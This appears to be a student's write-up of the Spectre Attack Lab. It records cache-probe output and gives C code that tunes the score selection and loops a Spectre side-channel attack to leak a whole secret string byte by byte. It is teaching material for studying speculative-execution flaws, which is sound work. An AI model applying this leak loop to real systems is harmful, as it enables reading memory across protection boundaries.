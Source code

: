 ```yaml
---
title: Spectre Attack Lab
author: Xinyi Li
date: \today{}
---
```


*task 1 and 2 are exactly the same tasks as what in [Meltdown Attack Lab](./Meltdown-Attack)*

# Task 3

```
array[97*4096 + 1024] is in cache.
The Secret = 97.
```

Because `97>=size`, the statement of Line 2 should not be executed. But, Actually, the program fetches the effects on CPU cache.

After commenting all `_mm_clflush(&size)`,it runs with nothing output. It shows that the program can read any extra information from the cache now. The function [`_mm_clflush`](https://software.intel.com/sites/landingpage/IntrinsicsGuide/#text=_mm_clflush&expand=678) flushes all content in caches that contains variable `size`, which ensure the cache is not influenced by `size` during each call of `victim`.


It also fails to give any output. Because when `i>size`, the statement will be not executed actually but still takes up the space of cache in the same way as `victim(97)` do. 

# Task 4

Yes. It indeed prints the first element (`'S'`, or `83` in ASCII) of `secret`.

```
array[83*4096 + 1024] is in cache.
The Secret = 83.
```

# Task 5

Because `restrictedAccess(larger_x)` always returns 0, the code can be fixed as taking the index of the second-highest score.

```c
int max = 1;
for (i = 1; i < 256; i++)
{
    if (scores[max] < scores[i])
        max = i;
}
```

Then I can get the information of the 1-st letter in the secret message:

```
Reading secret value at 0xffffe80c = The  secret value is 83
The number of hits is 333
```

# Task 6

Nest the main call into a loop and print out the entire secret string letter by letter:

```c
int main()
{
    int i;
    uint8_t s;
    int k;
    for (k = 0; k < strlen(secret); k++)
    {
        size_t larger_x = (size_t)(secret - (char *)buffer) + k;
        flushSideChannel();
        for (i = 0; i < 256; i++)
            scores[i] = 0;
        for (i = 0; i < 1000; i++)
        {
            spectreAttack(larger_x);
            reloadSideChannelImproved();
        }
        int max = 1;
        for (i = 1; i < 256; i++)
        {
            if (scores[max] < scores[i])
                max = i;
        }
        printf("Reading secret value at %p = ", (void *)larger_x);
        printf("The  secret value is %d:%c\n", max, (char)max);
        printf("The number of hits is %d\n", scores[max]);
    }
    return (0);
}
```

Then the whole string can be revealed:

![Every letter in the secret string](./steal_all_secrets.png)